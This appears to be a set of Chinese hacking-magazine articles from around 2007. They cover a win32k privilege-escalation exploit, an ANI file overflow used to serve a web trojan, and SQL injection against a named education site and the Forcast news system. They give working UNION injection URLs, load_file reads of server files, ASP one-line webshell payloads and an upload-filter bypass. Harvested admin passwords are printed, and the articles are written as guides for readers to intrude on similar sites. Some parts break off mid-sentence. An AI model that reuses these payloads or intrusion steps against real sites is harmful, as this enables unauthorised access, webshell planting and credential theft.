- 调用 win32k 的第一个系统调用 NtGdiAbortDoc

```asm
__asm {
  mov eax, 0x1000
  mov edx, 0x7ffe0300
  call dword ptr [edx]
}
```

其中 eax 是系统调用 ID（ID 在 0x0000-0x0fff 映射至 ntoskrnl 表格，ID 在 0x1000 与 0x1fff 分配给 win32k 表格，剩下的 0x2000-0x2fff 与 0x3000-0x3fff 则保留给 Table3 和 Table4）。7FFE0300 存放着 KiFastSystemCall 的地址 7C92EB8B。

```asm
KiFastSystemCall:
text:7C92EB8B  mov edx, esp
text:7C92EB8D  sysenter
text:7C92EB94  retn
```

在 Windows XP 中，使用 sysenter 指令代替了 int 2eh，sysenter 的执行周期比 int 2eh 少，所以 Windows XP 应该会比 Windows 2000 快。另外要说明的是，系统服务描述表的结构如下：

```c
typedef struct _SERVICE_DESCRIPTOR_TABLE {
  SYSTEM_SERVICE_TABLE ntoskrnl;
  // ntoskrnl所实现的系统服务，本机的API
  SYSTEM_SERVICE_TABLE win32k;
  // win32k所实现的系统服务
  SYSTEM_SERVICE_TABLE Table3; // 未使用
  SYSTEM_SERVICE_TABLE Table4; // 未使用
} SERVICE_DESCRIPTOR_TABLE, *PSERVICE_DESCRIPTOR_TABLE, **PPSERVICE_DESCRIPTOR_TABLE;
```

要研究更详细的 Windows 系统调用及内核程序，大家可以参见附件中的详细资料！

至此，我们已分析了该漏洞的根本成因，即在 GDI 句柄的销毁函数中未对输入的指针检验其合法性，另外对内存映像中 GDITableEntry 的读写没有足够的安全限制，由于这两方面的原因最终导致了 Bug 成为了一个名副其实的漏洞。

##### 漏洞利用

Ivanlef0u 给出的 ShellCode 实在是太狠了，我本想测试一下这个漏洞是否奏效，就用了它的 ShellCode，结果一招致命。比拔插销还快，电脑就关机重启了。如果谁要嫌自己的电脑关机慢，可以考虑用这个 ShellCode，因为这个关机程序不一般，它是在 Ring0 模式下的！

```c
unsigned char Shellcode[] = {
  0x60, // PUSHAD
  0x55, // PUSH EBP
  ...
  0x5D, // POP EBP
  0x61, // POPAD
  0xC3  // RET
};
```

这里为了体现出确实是在 Ring0 模式下工作的 ShellCode，不能使用那些简单常见的 ShellCode。Ring0 和 Ring3 的一个显著区别就是 Ring0 模式的程序可以执行特权指令。那么什么是特权指令呢？所谓特权指令是指具有特殊权限的指令，由于这类指令的权限最大，所以如果使用不当，就会破坏系统或其他用户信息。因此为了安全起见，这类指令只能用于操作系统或其他系统软件，而一般不直接提供给普通程序使用。

用户使用。

为了演示给大家看，我这里用到了一条特权指令——`mov eax, cr0`，我构造的新的 ShellCode 如下：

```c
char Shellcode[] =
"\x0F"        // mov eax,cr0
"\x20\xC0\xCF"; // iret
```

其中“mov eax, cr0”这条指令可不是大家都能随便调用的指令，它是一条在操作系统 Ring0 级别下才能使用的指令。如果在 Ring3 级别下运行是会报错的！如图1所示。


那么上面的 cr0 是什么呢？80386 有四个 32 位的控制寄存器，分别命名为 CR0、CR1、CR2 和 CR3。其中 CR1 被保留，供今后开发的处理器使用，在 80386 中不能使用 CR1，否则会引起无效指令操作异常。CR0 包括指示处理器工作方式的控制位，包含启用和禁止分页管理机制的控制位，包含控制浮点协处理器操作的控制位。CR2 及 CR3 由分页管理机制使用。

这样，我们在 Ring0 级别中拿到 CR0 后，存入 eax 寄存器中，然后输出，其结果如图2所示。8001003b 就是当前的控制寄存器——CR0 的值，因此可以说明确实能够提权成功！


##### 总结

通过以上漏洞的分析与利用，确定了它是一个本地权限提升漏洞。漏洞的根本成因在于 GDI 句柄的销毁函数中未对输入的指针检验其合法性，对内存映像中 GDITableEntry 的读写没有足够的安全限制。同时，通过这个漏洞也可以说明一个问题，漏洞通常可以潜伏很久，这跟漏洞的复杂程度有关，因为有时候一个漏洞最终被完美地利用，不仅是借助于一处程序的缺陷，而是要综合多处缺陷，为漏洞的利用打通一条道路。更重要的是，这个 Bug 能够潜伏两年之久，最终成为漏洞，不是因为它本身能力强，而是黑客的不懈努力、不舍追求！黑客才是真正的程序员，这里我向他们致敬！

- 适合读者：入侵爱好者
- 前置知识：PHP

## 站在前人的肩膀上


现在 SQL 注入漏洞满地皆是，优秀工具也出现了不少，比如 NBSI 和 CASI。这对于我们菜鸟来说，真是太方便了，完全避免了自己手动来一点点地猜测，大大提高了入侵率。今天我要给大家讲的是一个非常精彩的入侵过程，包含了非常多的知识点，即使完全不懂 PHP 的朋友一样能看懂，并能按照文中的技术入侵类似的网站，得到非常好的效果。好了，废话不多说，直接进入我们的文章，来一次梦幻之旅，相信你在这里一定能够找到属于自己的东西。

## 基础知识

首先还是先啰嗦一句形成 PHP 漏洞的基本原理。很多人认为在 PHP+MySQL 下注入一定要用到单引号，或者是没有办法像 MS SQL 那样通过使用“declare @a sysname select @a=<command> exec master.dbo.xp_cmdshell @a”这类的命令来消除引号，其实这是大家对注入的一种误解，或者说是对注入认识上的一种误区。

为什么这么说呢？因为不管在什么语言里，在引号（包括单双）里，所有字符串均是常量，即使是 dir 这样的命令，也仅仅是字符串而已，并不能当作命令执行，除非是像下面这样写的代码，否则就只是字符串。

```cpp
$command = "dir c:\\";
system($command);
```

当然，我们所说的命令不单指系统命令，还指 SQL 语句。要想让我们构造的 SQL 语句正常执行，就不能让我们的语句变成字符串。那么什么情况下使用单引号，什么时候不使用呢？看看下面的两句 SQL 语句。

```sql
SELECT * FROM article WHERE articleid='$id'
SELECT * FROM article WHERE articleid=$id
```

这两种写法在各种程序中都很普遍，但安全性却是不同的。第一句由于把变量“$id”放在一对单引号中，使得我们所提交的变量都变成了字符串，即使包含了正确的 SQL 语句，也不会正常执行；而第二句则不同，由于没有把变量放进单引号中，我们所提交的一切，只要包含空格，那么空格后的变量就会作为 SQL 语句来执行。针对两个语句，我们分别提交两个成功注入的畸形语句来看看它们的不同之处。

- 1. 指定变量 `$id` 为 `'1' and 1=2 union select * from user where userid=1/*`，此时整句变为：`SELECT * FROM article WHERE articleid='1' and 1=2 union select * from user where userid=1/*'`。
- 2. 指定变量 `$id` 为 `1 and 1=2 union select * from user where userid=1`，此时整句变为：`SELECT * FROM article WHERE articleid=1 and 1=2 union select * from user where userid=1`。

看出来了吗？由于第一句有单引号，我们必须先闭合前面的单引号，才能使后面的语句作为 SQL 执行，并要注释掉后面原 SQL 语句中的尾部单引号，这样才可以成功注入。如果 `php.ini` 中 `magic_quotes_gpc` 设置为 on，或者变量前使用了 `addslashes()` 函数，我们的攻击就会化为乌有。而第二句由于没有用引号包含变量，所以我们也就不用去考虑闭合和注释的问题了，直接提交就可以了。

知道了原理，我们就可以很容易地入侵网站了。此次我们的目标是某教育信息网。大概看了一下新闻 `http://www.***.com/show.php?id=1742`，从地址格式上看是 PHP 的，习惯性地在 1742 后面输入一个 `'`，结果如图1所示，页面报错了，直接把 Web 路径暴露出来了，路径为“F:\xljyxxw\show.php”。有了路径事情就好办了，无非就是构造语句罢了。接着输入 `and 1=1` 和 `and 1=2` 测试出有 PHP 注入漏洞。

下面再详细介绍一下我们要用到的一个 MySQL 函数 `load_file()`，因为很多地方都用得到它。


在 SQL 语句中可以使用各种 MySQL 内置的函数，经常使用的就是 `DATABASE()`、`USER()`、`SYSTEM_USER()`、`SESSION_USER()` 和 `CURRENT_USER()` 这些函数来获取一些系统信息，此外用得比较多的就是 `load_file()` 了，其作用是读入文件，并将文件内容作为一个字符串返回。

看到这里，大家应该想到我们可以做什么了，就是读取一些机密文件，但也是有条件限制的。要求准备读取的文件必须在服务器上；必须指定文件完整路径；必须有权限读取并且文件必须完全可读；要读取的文件必须小于 `max_allowed_packet`。如果该文件不存在，或因为上面的任一原因而不能读出，则函数返回空。这里比较难满足的就是权限，在 Windows 下，如果 NTFS 设置得当，是不能读取相关文件的，当遇到只有 Administrators 才能访问的文件时，Users 就别想 `load_file` 出文件。而在实际注入中，我们还有两个难点需要解决，一是绝对物理路径，二是构造有效的畸形语句。现在，第一个绝对物理路径的难点我们已经解决了，构造有效的语句就是小意思了。

## 构造 SQL 注入语句

PHP 注入与 ASP 注入还是有区别的，我们要进行的是跨表查询，因此要用到 UNION。UNION 用于连接两条 SQL 语句，其后的字段数量、字段类型都应该与前面的 SELECT 一样。通俗点说，如果查询正确的话，就会出现正常的页面。

我们接着注入 `http://www.***.com/show.php?id=-1742%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10/*`，出现的是错误页面，说明还没有找对字段。不停地改变 SELECT 后面的数字，当数字改变为 19 的时候，出现了正常页面。如图2所示，我们直接读取用户名和密码，经过无数次测试后终于找到了，这里我就直接把地址给出吧，`http://www.ycxljy.com/show.php?id=1742%20and%201=2%20union%20select%201,username,3,4,5,password,7,8,9,10%20from%20user/*`，如图3所示，得到的用户名是“admin007”，密码是“我是中国人”。

### 漏洞攻防


图2


图6


图3

下面我们直接进入后台 http://www.***.com/admin/，输入得到的用户名和密码，登录成功，如图4所示。点击“添加资料”，出现了一个可以上传的地方，如图5所示。我们直接上传 PHP 木马。本以为到这里入侵就结束了，但是结果却并不那么简单，提示上传失败，如图6所示。看来这条路走不通了，还是继续走 `load_file()` 之路吧。

`load_file()` 来入侵吧。从报错的路径来看，系统是 Windows 的，具体是什么版本到目前还没有弄清楚，不过我们只要读取“C:\boot.ini”文件就可以得到操作系统的版本了。我们具体构造的语句为“http://www.ycxljy.com/show.php?id=1742%20and%201=2%20union%20select%201,2,3,4,5,load_file(char(99,58,92,98,111,111,116,46,105,110,105)),7,8,9,10/*”，结果如图7所示，得到了 Windows 版本为 Windows Server 2003 Enterprise。下面我们就不用手动的方法了，直接用 CASI4.0 来进行操作。输入有漏洞的地址，点击“ScanNum”，如图8所示，再点击 CASI 的暴代码按钮。在目标文件绝对路径中输入得到的路径“F:\xljyxxw\show.php”，插入位置选择“9”，稍后我们就得到了 show.php 的源代码，顺藤摸瓜看代码，最后在“F:\xljyxxw\bbs\admin\config.php”中找到了 Root 的密码为“junly608”，但是用 MySQL 连接的时候提示错误，估计是防火墙过滤了。继续尝试用 CASI 得到 WebShell，最终还是失败了，入侵进入了死胡同。


图4


图7


图5

## 另外的思路

看来后台是没有什么可以利用的了，还是用……

## 最后的思路

没办法，继续到后台找找吧，我上次没有找到可以上传图片的地方，试着用 PHP+Gif 的方法也失败了。无意间看到上传的目录是 img，于是输入 http://www.***.com/img/，结果出乎意料，如图9所示，可以读取 img 目录下的文件。仔细找了半天，竟然有了意外收获。我说以前的后台怎么不能上传文件呢，原来早就有人捷足先登了，如图10所示，前人已经上传了 okphp.php 文件。到这里我们的思路就清楚了，直接输入 http://www.***.com/img/okphp.php，结果需要密码，没关系，我们读取 okphp.php 文件，拿到密码不就可以登录了吗？okphp.php 的具体路径是“F:\\xljyxxw\\img\\okphp.php”，如图11所示，我们已经得到了源文件，但却做加密处理了，这可如何是好？没办法了，还是直接把它发到 www.chinaunix.com，让人来帮忙吧。果然不到 20 分钟的时间就有人回复了，还真快，告诉我如何解密，原来这么简单！我们直接就把源代码输入到 Zend 里，然后在 Apache+PHP+MySQL 平台上执行就得到了如图12所示的结果。点击右键查看源代码，我们需要的结果都出来了，如图13所示。再输入密码 dhyhack，成功登录，如图14所示，经过艰难万苦，终于得到了 WebShell，剩下的提权工作就交给大家去做吧。


图8


图11


图9


图12


图10


图13


图14

总结一下我们的思路：找到 PHP 注入点 -> 登录后台 -> 上传 PHP WebShell 失败 -> 利用 `load_file()` 函数读取文件 -> 找到服务器目录设置不严格的权限 -> 得到前人的后门 -> 解密后得到密码 -> 最终得到 WebShell。虽然看着简单，但事实却是非常地难，我是详细分析了很长时间才最终得到 WebShell 的。我的意思不是说我技术有多好，而是说入侵就像搭积木一样，只有一点点地积累才能最终得到想要的结果。最后，希望大家能喜欢这篇文章，我会更加努力地为大家奉献上更精彩的文章，敬请期待。

- 适合读者：漏洞爱好者、入侵爱好者
- 前置知识：汇编


#### 微软 ANI 漏洞分析与利用

文／图 张东辉 袁野

2007年3月30日，milw0rm 公布了今年目前为止危害性最大的 Windows 漏洞——user32.dll 的 ANI 文件处理漏洞。我写这篇文章已是漏洞爆出的第5天了，事实上，30号公布的漏洞，30号晚上利用该漏洞的网马生成器就已经开始在网上散播了；而且微软迟迟没有发布相关补丁，这给利用该漏洞的病毒、蠕虫、木马、恶意软件等提供了一个难得的机会。漏洞就像一把钥匙，打开了入侵互联网的大门。

虽然 eEye 推出了一款非官方的补丁，可以拦截一部分远程攻击、网络木马，但是4月1日，milw0rm 上又公布了一个能够绕过 eEye 补丁的 Exploit。看来这又是一场互联网血雨腥风的到来！

##### 漏洞分析

既然这个漏洞和 ANI 文件有关，我们在分析漏洞之前，就需要对 ANI 文件格式有一定的了解。关于 ANI 文件格式的详细说明，大家可以参考光盘中的杂志相关内容。

ANI（Animated Cursor）文件是 Windows 的动画光标文件，可以作为鼠标指针，其文件扩展名为“.ani”。ANI 文件由“块”（chunk）构成，一般包括五个部分，分别是标志区、文字说明区、信息区、时间控制区和数据区，即 RIFF-ACON、LIST-INFO、anih、rate、LIST-fram。ANI 文件在播放时所形成的动画效果，其实就是一张张的光标或图标图像按一定的顺序绘制到屏幕上，并保留指定的时间（见时间控制区说明），依序循环显示的结果。一个 ANI 文件的开头 12 个字节中，头 4 个字节为 RIFF，后 4 个字节为 ACON，中间 4 个字节是该 ANI 文件的长度（字节数）。有了 RIFF 和 ACON，就可断定该文件是一个 ANI 文件，也就是说，ACON 是一个动画光标文件的标志。

在一个 ANI 文件中，必须有的块标识有以下几个：RIFF，多媒体文件识别码；ACON，ANI 文件识别码；anih，ANI 文件信息区识别码；LIST，LIST 列表形式（窗体形式 fccType='fram'）；icon，icon 识别码。在一个 ANI 文件中，还可能有以下几个块标识中的一个或多个：INAM，ANI 文件标题区识别码；IART，ANI 文件说明信息区识别码；rate，ANI 文件时间控制数据区识别码；seq，ANI 文件图像显示帧顺序控制区识别码。

这些块之间的逻辑层次关系可以做如下表示：


以上仅是对 ANI 文件格式的结论性描述，要完全明白这些块的作用和意义，以及块与块之间的逻辑关系，确实需要下一番功夫。另外，仅研读我本文提供的资料也是完全不够的，一定会有理解起来模糊的地方，因此还需要动手做实验，自己跟踪 user32.dll 对 ANI 文件的处理过程，从实验中得到结论。这样做有两个好处，一是可以更加深刻地理解漏洞的根源；二是由此可以启发新漏洞的挖掘思想。

如果你对 ANI 文件格式已经有了一定的了解，那我们下面就可以开始分析最终造成 user32.dll 栈溢出的这个畸形 .ani 文件了。为了方便理解，我把这个 ANI 文件（exp.ani）用十六进制的方式打开，并做了如图1所示的示意。


这是一个精心构造的 1k 大小的 .ani 文件（在 Windows XP SP2 全补丁下测试通过），其各个部分解释如表1所示。

| 偏移地址 | 内容 | 含义 |
|---|---|---|
| 0000-0003h | "RIFF" | 多媒体文件识别码 |
| 0004-0007h | 0000 0400h | 文件大小（1k） |
| 0008-000Bh | "ACON" | ANI 文件识别码 ACON |
| 000C-000Fh | "anih" | anih 识别码（ckID），信息区开始的标志 |
| 0010-0013h | 0000 0024h | anih 块的大小（ckSize，36 个字节） |
| 0014-0037h |  | anih 块内容 |
| 0038-003Bh | "LIST" | LIST 识别码，数据区开始的标志 |
| 003C-003Fh | 0000 0003 | LIST 块的大小（3 个字节） |
| 0040-0043h |  | LIST 块内容 |
| 0044-0047h | "LIST" | LIST 识别码，数据区开始的标志 |
| 0048-004Bh | 0000 0003 | LIST 块的大小（3 个字节） |
| 004C-004Fh |  | LIST 块内容 |
| 0050-0053h | "anih" | anih 识别码（ckID），信息区开始的标志 |
| 0054-0057h | 0000 03A8h | anih 块的大小（ckSize，936 个字节） |
| 0058-03F0h |  | anih 块内容 |

为什么这个文件能使 user32.dll 栈溢出呢？据我分析，是因为 user32.dll 对这个 .ani 文件中的第二个 anih 块进行处理时，未对这个块的长度进行检查，最终导致栈溢出，控制了程序的 EIP。通常来说，任何一个正常的 anih 块的长度应该是 36 个字节，为什么这样说呢？因为 anih 块内容是有自己的数据结构的，用一个结构体可以表示如下。

```c
typedef DWORD JIF, *PJIF;
typedef struct tagANIHEADER{
    DWORD cbSizeof;   // 数据块大小，应该是36字节
    DWORD cFrames;    // ANI文件保存的图像帧数
    DWORD cSteps;     // 完成一次动画过程显示的图像数
    DWORD cx;         // 图像宽度
    DWORD cy;         // 图像高度
    DWORD cBitCount;  // 颜色位数
    DWORD cPlanes;    // 颜色位面数
    JIF   jifRate;    // JIF频率
    DWORD fl;         // AF_ICON/AF_SEQUENCE设置标记
} ANIHEADER, *PANIHEADER;
```

可见，这个 anih 块内容是一个 9 个双字的结构体，所以说它的长度应该是 9×4=36 字节。然而这个畸形的 .ani 文件中第二个 anih 块内容的长度偏偏不是 36 字节，而是 936 个字节，若程序中把这个块的内容复制到栈中，你说能不溢出吗？下面我们用 OllyDBG 跟踪一下这个溢出过程，看看根本原因是不是如上所说。

```asm
// user32.dll中的ReadChunk(x,x,x)函数
77D53AC7  8BFF        MOV EDI,EDI
77D53AC9  55          PUSH EBP
77D53ACA  8BEC        MOV EBP,ESP
77D53ACC  56          PUSH ESI
77D53ACD  8B75 08     MOV ESI,DWORD PTR SS:[EBP+8]
77D53AD0  57          PUSH EDI
77D53AD1  8B7D 0C     MOV EDI,DWORD PTR SS:[EBP+C]
77D53AD4  FF77 04     PUSH DWORD PTR DS:[EDI+4]
...
// 调用ReadFileCopy函数
77D53ADB  E8 7AFEFFEF CALL USER32...
...
// 从ESI指向堆中的anih块内容
77D53A69  8D0C16      LEA ECX,DWORD PTR DS:[ESI+EDX]
77D53A6C  3BCE        CMP ECX,ESI
77D53A6E  72 28       JB SHORT ...
77D53A70  3BCA        CMP ECX,EDX
77D53A72  72 24       JB SHORT ...
```

```asm
77D53A7A 57                PUSH EDI
77D53A7B 8B7D0C            MOV EDI,DWORD PTR SS:[EBP+C]
...
77D53A85 F3A5              REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
...
77D53A96 EB02              JMP SHORT ...
77D53A9C C20600            RETN 0C
```

上面是对溢出过程的动态跟踪分析，如果用 IDA 进行静态分析，同样也会得到上面提到的漏洞原因，这里就不再赘述了！

##### 漏洞利用

提到利用，大家就笑了！想想多少东西在使用 user32.dll 呀！首当其冲的就是 IE 了，IE6 和 IE7 已被测试通过，全部中招，也就是说写个网络木马是很容易了，只要有人敲上你的网站，那说都不说了，想干啥就干啥喽！其次，Windows 的 Explorer 在打开这个 .ani 文件所在的目录时也会调用 user32.dll 中的 LoadAnIcon 函数，从而触发溢出，因此电子邮件、QQ、FTP、U 盘等都可以用来传播利用这个漏洞的病毒、蠕虫、木马、恶意软件；另外，我们还可以利用一些使用 user32.dll 中 LoadAnIcon 函数的软件，用这些软件打开这些畸形 .ani 文件，同样也会中招，比如 WinHex、IrfanView、Firework、Photoshop 等。

下面我主要演示一下网络木马生成和一次成功的攻击过程。目前网上已经流传了很多木马生成器，使用简单，输入网页木马远程存放地址和木马程序存放地址即可，如图 2 和图 3 所示。

我使用我的 IP 地址（202.117.7.209）作为测试，然后启动 Web 服务（IIS5.1），把生成的三个文件（index.htm、z1.jpg 和 z2.jpg）还有木马程序（a.exe）放在 Web 根目录下。


然后把链接（http://202.117.7.209/）发给几个朋友，他们全部中招了，哈哈，好在我没有下“毒手”，木马程序仅仅是弹出个对话框而已！如图 4 所示。


## 漏洞防范

ANI 漏洞危害这么大，不防不行啊，否则我们岂不是要遭殃？因为我写这篇文章时还没有微软的官方补丁；首推的防范措施是下载 eEye 的非官方补丁，补丁已放在光盘附件中。另外，如果你的 C 盘是 NTFS 格式的，还可以使用如下措施来防范。

在“运行”里输入 gpedit.msc，将“本地计算机策略→用户配置→管理模板→系统→停止命令提示符……”进行相应配置。将“停止命令提示符”设置为“启用”，把“停用命令提示符脚本处理吗”选为“是”；再将 `C:\Documents and Settings\xxxxxx\Local Settings` 目录的权限设置为不能运行，`xxxxxx` 为你的用户名。

> 编注：目前微软已经发布了 ANI 漏洞的补丁 KB925902，如果你的系统没有自动更新，可以到微软官方网站下载！根据微软的说明，Windows XP SP2 上安装此安全更新后，Realtek HD 音频控制面板（Rthdcpl.exe）可能无法启动，出现这种情况的还需要下载 KB935448 补丁。

直接调用了 `ReadFilePtrCopy()` 函数把堆中的 anih 块内容复制到栈帧中。

值得一提的是，如果你擅长于漏洞挖掘，通过这次 `user32.dll` 暴出的漏洞，是否体会到了漏洞的真正含义呢？不仅是那些一般水平的程序员写的程序容易出问题、暴漏洞；事实上，高级程序员也会有考虑不周的时候。因此，漏洞是一个很微妙的东西，不是说编程经验丰富、实现能力强的程序员写的程序就不会有漏洞。任何程序员只要编程时考虑不周，都有可能暴出漏洞！ANI 漏洞就是一个很好的例子。总之，无论利用 ANI 漏洞的病毒、蠕虫、木马、恶意软件、网马对互联网的冲击有多大，我们都有理由相信，互联网及我们的 PC 能顶过这 2007 年的第一次危机！

##### 总结

ANI 漏洞的根本成因是 `user32.dll` 中的 `ReadChunk()` 函数未对 `.ani` 文件中的 `anih` 块内容长度进行检查。


适合读者：入侵爱好者  
前置知识：SQL 基础

## 沸腾的毁灭

## 沸腾展望多媒体新闻系统 v1.1 的灭顶之灾

文／图 Cschi

按说天下本无事，却因存在一些好事者而变得不那么太平了。就拿沸腾新闻系统来说吧，几经改版，自 2006 年 9 月份发布 1.1 版至今，再未做过升级，其官方网站也采用此版本，安全性也算是能经受得起考验。看来一切趋于平和，然而就因为好事，这种和谐就被打破了。一日闲来无事，我便下载了该版本的代码看看，也好学习借鉴，不过这一看却给它带来了灭顶之灾！

所谓蚁穴，其特点就是能毁堤坝，虽小却多，加上洪水不断的侵袭，千里之堤终毁于蚁穴！热锅上的蚂蚁尚不能安生，何况“沸腾”？于是乎蚂蚁便四处打洞以求生存。如果说系统本身的漏洞是堤坝上的蚁穴，那么像我们这些好事者便是“洪水猛兽”了，“沸腾”安能高枕无忧，所谓树欲静而风不止。

闲话少叙，还是先洞察蚁穴吧！大凡看过沸腾 0.45 版代码的人都会对这个系统的安全性担忧，好在及时推出了 1.1 版，该版本代码编写得更条理、专业，安全性也做得不错。除了对超级管理员可以访问的页面未进行变量过滤（即对超级管理员绝对信任）外，几乎对所有变量都进行了过滤。但是智者千虑必有一失，以下提及的这些漏洞足以说明这点，而且这些漏洞对该系统几乎是毁灭性的灾难。考虑到该系统使用较多以及漏洞的危害，在发稿前我已经联系了沸腾，文中也提供了防范方法，希望使用该系统的各网站管理员能及时修补漏洞。

## 漏洞公告

为了节省黑防宝贵的版面，以下说明非必要时均略去代码，大家可以自己下载该系统代码对照阅读。

- 漏洞一：`Reviewindex.asp` 的 `shu` 变量未过滤，导致可以构造 `Union` 语句任意注入！
- 漏洞二：`Result.asp` 和 `BlogResult.asp` 的数字型变量 BigClassID 用 checkstr 过滤，导致可以避开单引号继续注入！
- 漏洞三：`RssFeed.asp` 和 `Send_submit.asp` 的数字型变量 TopNews、newsid 用 checkstr 过滤。
- 漏洞四：`Index.asp`~`Index5.asp` 文件，当“UserTableType = "DVBBS"”时，整合动网论坛时未过滤 `loginuser=Request.cookies(Forcast_SN)("UserName")`。
- 漏洞五：后台挂马。`CreateASP.asp` 从 News 表中读取 Title 写入 LastNewsXP.asp 文件；`Systemsave.asp` 写网站配置参数到 Config.asp。数据库备份时未过滤扩展名后的空格，导致可以直接挂马！

另外，`AddReview.asp` 和 `Admin_login.asp` 文件还存在注入点，但因不能得到注入结果而无法利用，危害不大，但还是建议修补！

等文件实现注入，如图 3 所示。


图1


图2


图3

##### 漏洞利用

以下如非必要，同样略去了构造 Union 语句的过程和非必要的分析说明！

漏洞一：因为 `Reviewindex.asp` 中没有包含文件 `Config.asp`，导致直接访问该文件时，由于 `conn.execute` 语句中的 `db_Review_Table` 变量无法取值而返回空值。但是我们发现该文件被包含在 `Index.asp`、`Bloguser.asp`、`Index1.asp`、`Index4.asp`、`Index5.asp` 和 `1.asp` 等文件中调用，所以在访问这些页面时，提交 `shu` 变量便可利用此漏洞。

我们构造的 Union 语句如下：

```sql
1* from ReView where passed=1 union select passwd,0,username,4,5,1,7,lastlogin,9,10,11,12,13,14,15,16 from admin union select top 1 *
```

说明：使用两个 Union 是为了让第二个 Select 结果集的各个字段名自动适应第一个 Select 结果集，这样会减少许多不必要的麻烦；指定 top 1 是为了减少返回太多不必要的数据。依据代码，当第二个 Select 的第 2、6 个字段分别为 0、1 时，页面将显示出 username，链接指向 passwd。

注入点在“http://*.*.*.*/Index.asp?shu=”后直接输入以上构造的 Union 语句，即可得到 Admin 管理员表中的用户名及密码，如图 1 所示。同理可得到 FT_User 用户表中所有的用户名及密码。由于 `shu` 变量未做任何过滤，所以我们可以任意构造 Union 语句，如用“where username='base'”获得 base 用户的信息，用“where key='super'”获得所有超级管理员的信息等，如图 2 所示。我们还可以通过 `1.asp`、`Bloguser.asp`、`Index1.asp`、`Index4.asp` 和 `Index5.asp` 等文件实现注入。

漏洞二：我们知道，对数字型变量仅仅过滤单引号是不够的，可以通过避开单引号构造 Union 语句。下面为大家分析一下构造 Union 语句的过程。

- 1）首先在注入点“http://*.*.*.*/Result.asp?action=title&keyword=asd&BigClassid=”或“http://*.*.*.*/BlogResult.asp?action=title&keyword=asd&BigClassid=”后直接输入以下构造的 Union 语句，可以获得如图 4 所示的结果。


图4

```sql
1' union select '1,2,3,...,28' from admin union select * from news where bigclassid=1
```

- 2）由此推测该站数据库的 News 表字段个数不是 28 个，于是逐渐增加，到 30 时返回如图 5 所示，说明 Union 语句已经执行，只不过返回空集而已。以下构造的 Union 语句均为 30 个字段（经测试数据库 News 表字段数，分站奔腾年代为 30，主站沸腾年代为 29，直接下载的为 28，如果使用 1 的 union 语句会得到如图 7 所示的结果，可以直接按照第 4 步操作，同时字段数使用 28）。


图5

- 3）分析 `Result.asp` 第 328 行代码，如图 6 所示，根据图 5 的提示，可以推测出现错误是因为 `rs11` 返回空集，导致第 328 行代码无法取值，所以我们只要将 `bigclassid` 字段（第 18 个字段）值改为真实存在的 `bigclassid` 值（任意浏览一条新闻便可获得，如 15）即可，提交后，结果如图 7 所示。

- 4）将 Union 语句中的 2、8、15 字段分别改为 `username`、`passwd`、`oskey` 就可以注出用户名、密码等，Union 语句如下。同时，我们还可以注出 ft_user 表中所有用户的密码，如图 8 所示。


图6


图7


图8

```sql
1' union select -1,username,3,4,5,6,7,passwd,9,10,11,12,13,14,oskey,16,17,15,19,20,21,22,23,24,25,26,27,28,29,30 from admin union select * from news where bigclassid=1
```

漏洞三：与漏洞二同理，但实际注入时发现由于 `RssFeed.asp` 存在如下代码而导致执行出错，如图 9 所示。虽然本机测试成功注出了结果，但最后还是决定放弃。对于 `Send_submit.asp` 文件，要求服务器必须支持 `CDONTS.NewMail` 组件，条件过于苛刻也决定放弃。当我后来利用 Cookies 欺骗进入沸腾官方网站的后台，用自带的阿江 ASP 探针也发现其服务器不支持该组件，说明此漏洞利用价值不高。

```text
Microsoft VBScript 运行时错误 错误 '800a000d'

类型不匹配：'[string: "1 * from news checkk"]'

/RssFeed.asp, 行21
```

图9

```vb
if iTopNews<0 or iTopNews="" then
    iTopNews=20
end if
```

漏洞四：由于未过滤 `loginuser=Request.cookies(Forcast_SN)("UserName")`，所以可以构造 Cookies 的 UserName 值，提交到 `select * from "& db_User_Table &" where "& db_User_Name &"='"&loginuser&"'"` 语句中执行，将需要的信息以结果集中的 `db_User_Face`，即 photo 字段的图片链接形式显示，构造的语句如下。

```text
%27+union+select+...+password+from+admin+where+UserName=%3D%27base
```

用 WSockExpert 监听 `Index.asp` 的 Get 数据包，并在 Cookies 中加入“&username=构造的 Union 语句”，如图 10 所示……再用“nc vv 127.0.0.1 80<1.txt>1.htm”提交，浏览 1.htm 文件，如图 11 所示，点击查看源代码，再查找“bbs/”就可以得到 base 用户的密码了。


图10

当然，要想成功利用此漏洞也是有条件的，就是网站必须整合动网论坛，并且设置显示“论坛入口”及“论坛最新”，匿名访问的页面显示如图 12 所示。

漏洞五：后台挂马可以说是永久的话题，虽然不属于系统漏洞，但是它的存在不但给入侵打开了方便之门，而且会令好事者更加痴迷和执著……


图11


图12

- 1）利用 `CreateASP.asp` 写 `LastNewsXP.asp` 文件。  
  首先修改最新的一篇文章标题……虽然 `NewsAdd2.asp` 中对 `title` 变量用 `CheckStr` 函数做了过滤，但是 `NewsEditOK.asp` 对 `title` 未过滤，可改为一句话木马，如 `<%If Request("#")<>"" Then Execute(Request("#"))%>`，然后直接调用 `CreateASP.asp` 会将该一句话木马写入 `LastNewsXP.asp` 文件中……

- 2）利用 `Systemsave.asp` 写 `Config.asp` 文件。  
  打开网站属性设置，在“上传文件大小”栏输入 `2000"%><%If Request("#")<>"" Then Execute(Request("#"))'`……提交成功后即可将一句话木马写入 `Config.asp`。

- 3）利用数据库备份挂马。尽管沸腾系统限制将数据库备份为 asp、asa 等扩展名的文件，但是备份时在文件名后加空格即可轻松绕过该限制。另外，通过修改 Post 数据包的 `DBpath` 为上传的 Gif 木马文件名，在 `bkDBname` 文件名后加“+”，用 NC 提交，也可以将数据库备份为 ASP 等文件类型。

```text
&fullname=%D0%A1%B7%D1&purview=99999
&UserName=base&passwd=6257306a548222b0&KEY=super
&reglevel=&sex=%CF%C8%C9%FA&UserLoginTimes=667
&UserEmail=base0321%40163%2Ecom
&sterne=1%CF%C8%C9%FA&ViewUrl=Admin%5Flogin%2Easp
```

## 几点说明

沸腾的后台验证方式采用前后台模式并使用不同的数据表，如 FT_User、Admin。虽然前台管理员名是透明的（可以从网页中直接看到），但后台管理员名可以很隐秘。它在验证后台用户时使用了 Admin 表中的 username 和 adder 字段，不但要求登录后台的 username 必须是超级管理员，还要求 adder 字段值必须与已经登录的（前台）用户名一致。这使后台管理员名变得很隐秘。我们要想通过 Cookies 欺骗进入后台，就必须先注出后台超级管理员的 username、passwd 及 adder（即前台管理员名）字段值。


图13

```sql
